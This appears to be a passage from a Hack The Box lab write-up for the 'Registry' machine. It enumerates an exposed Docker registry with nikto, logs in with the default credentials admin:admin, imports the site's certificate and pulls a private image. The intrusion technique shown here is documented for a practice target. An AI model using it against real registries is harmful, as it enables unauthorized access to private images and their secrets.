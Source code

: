 ```
| BUG+oUPpMOoO99ZRnX8D5/H3dvbuBsuqKgRrPmQnMehoWs7pNRUDudUnnLfGEJHh
| PEyspHOCbg1C6a0gI1xo0c0=
|_-----END CERTIFICATE-----
```

## Checking the Docker Image

http://docker.registry.htb/v2/_catalog has the reposity bolt-image in it. This is the HTTP v2 API for docker.

nikto -ask=no -h http://docker.registry.htb 2>&1 gathers more information.

**admin:admin** are the credentials.

## Installing Docker

```
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
echo 'deb [arch=amd64] https://download.docker.com/linux/debian buster stable' | sudo tee /etc/apt/sources.list.d/docker.list
sudo apt-get update 
sudo apt-get install docker-ce
sudo systemctl start docker
```

## Setting Up the .crt

We first need to grab the cert from Firefox, by visiting https://docker.registry.htb/ -> click the lock icon -> click connection -> click more information -> click view certificate -> click details -> click export 

From here, we need to move the ca.crt file to our docker path:

```
sudo cd /etc/docker
sudo mkdir certs.d
sudo cd certs.d
sudo mkdir docker.registry.htb:443
sudo cp ~/HTB/Registry/ca.crt /etc/docker/certs.d/docker.registry.htb:443/
```

## Cloning the Image

We can now restart docker and connect to the remote docker registry:

```
sudo service docker restart
sudo docker login -u admin docker.registry.htb:443 
Password: admin
```

To clone the image:

```
sudo docker pull docker.registry.htb:443/bolt-image --disable-content-trust -a
```
